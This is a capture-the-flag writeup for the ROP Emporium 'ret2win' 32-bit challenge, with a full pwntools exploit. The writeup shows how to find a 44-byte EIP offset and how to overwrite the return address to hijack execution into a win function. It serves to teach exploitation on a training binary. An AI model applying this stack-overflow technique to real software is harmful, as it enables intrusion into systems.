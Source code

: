 ```yaml
---
layout: default
title : Sayonara - Awkward Writeup
---
```


## Intro

today we are going to be tackling the first challenge on ROP Emporium which is a series of challenges to teach ROP `Return Oriented Programming`

![image](https://www.linkpicture.com/q/Screenshot_1_517.png)

download the x86 zip file and extract it using unzip, you will get 2 files a 32 bit executable and a flag.txt file which will be revealed if you exploit the binary 


## Basic Executable Reconnaissance

the executable is not stripped which makes reverse engeneering easier because it doesnt hide function names and the executable is dynamically linked so the libc library which contains many external funcions like fprintf() are not loaded within the executable but they dynamically linked at the execution time

![image](https://www.linkpicture.com/q/Screenshot_2_316.png)

we have only one security configuration enabled which is NX `No-Execute` also known as `Data Execution Prevention or DEP` marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.

```
checksec --file=ret2win32 
```
![image](https://www.linkpicture.com/q/Screenshot_3_249.png)


## Reverse Engeneering the Binary

open the binary using ghidra so we can read the source code and take a look at the functions

![image](https://user-images.githubusercontent.com/97733918/223099241-58d26b75-14a9-4631-bbc7-532cfc61b78c.png)

### Binary Functions

in this list of functions there is 3 interesting functions `main` and `pwnme` and `ret2win` where the main is the entry and pwnme is the vulnerable function and ret2win is the function that will print the flag 

![image](https://user-images.githubusercontent.com/97733918/223098994-649a7680-9f81-4a04-83ef-cc4855372607.png)

this the main function let's jump to pwnme

![image](https://user-images.githubusercontent.com/97733918/223099776-43917f97-cdf9-4d69-a9e3-0c42ebe7b32c.png)

the read function is vunerable because the buffer takes `40 bytes` as maximum and the read function takes upto `56 bytes` so we can exploit the 16 bytes left to overflow the buffer and `hijack the execution flow`

![image](https://user-images.githubusercontent.com/97733918/223100490-3bab3262-1a56-48b5-95eb-d9dae7c50396.png)

so the final plan is exploiting `read()` from pwnme function by overflowing the buffer and overwrite the `EIP address value` with the ret2win function address to print the flag

![image](https://user-images.githubusercontent.com/97733918/223101015-b38ac1c2-cde7-4754-88f2-ef1b5e4ee59c.png)


## Locating EIP Offset : 

`EIP` is the return address value af a function so if we can to overwrite this value we can jump to another address that we specify in this challenge we want to jump to the ret2win function address

to find the offset we will use gdb pwndbg plugin 

![image](https://user-images.githubusercontent.com/97733918/223102436-2e94b3e1-dc52-4b43-a101-fedd37568491.png)

cyclic generates a char pattern that will help us identify the the offset to the EIP in this case we're generating a 100 char pattern because we know that less than 100 is enaugh to crash the binary and overwrite the EIP 

![image](https://user-images.githubusercontent.com/97733918/223102520-2ddd42d4-9090-4a74-8a66-4f486fa9c0f4.png)

let's run the binary and send this pattern as input

![image](https://user-images.githubusercontent.com/97733918/223106109-28445e58-1fea-442f-8319-163e0d4f24b2.png)

wait for the binary to crash and then take the 4 char pattern that have overwritten the EIP and find out the offset

![image](https://user-images.githubusercontent.com/97733918/223106535-62bdbfc6-2095-4f65-a944-1d38be57a0d0.png)

the offset is `44`

![image](https://user-images.githubusercontent.com/97733918/223106755-30a34c96-1f38-4c89-a0c4-6d34babe7046.png)

## Python Exploit using Pwntools

we are going to import the pwntools library because it will help us write the exploit

```python
from pwn import *
```

we will setup the architecture so the pwntools library will analyze the executable's archeticture and convert the addresses to the correct format `32bit little endianne or 64bit little endianne` so they are correctly aligned in the stack without us doing this manually 

```python
exe = './ret2win32'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
```

open the executable in a process
```python
io = process(exe)
```

padding the payload with the offset and overwrite the EIP with the address of the ret2win function and send this payload as input

```python
offset = 44
payload = flat(
	offset * b'A',
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```

this is the `final script`

```python
from pwn import *

# Set up pwntools for the correct architecture
exe = './ret2win32'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
io = process(exe)
offset = 44
payload = flat(
	offset * b'A',
	elf.functions.ret2win
)

write("payload", payload)
io.sendlineafter(b'>', payload)

io.interactive()
```

now let's run it and BOOM we have Hijacked the Execution Flow 

![image](https://user-images.githubusercontent.com/97733918/223111991-70b27437-7f45-4c80-97aa-b61c6b2c660c.png)

Greeting From [Sayonara](https://github.com/ismail-arame)


